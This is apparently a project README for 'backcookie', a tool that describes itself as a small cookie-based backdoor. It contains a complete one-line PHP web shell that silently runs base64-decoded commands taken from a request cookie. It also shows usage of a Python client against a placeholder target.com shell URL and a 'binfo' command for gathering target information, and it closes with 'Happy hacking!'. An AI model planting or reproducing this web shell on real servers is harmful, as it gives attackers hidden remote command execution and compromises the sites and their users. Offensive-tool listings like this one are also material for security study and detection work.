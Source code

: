 backcookie
==========


Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example one: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
```
Example two: python backcookie.py --url http://target.com/shell.php --cookie name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Happy hacking!

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------
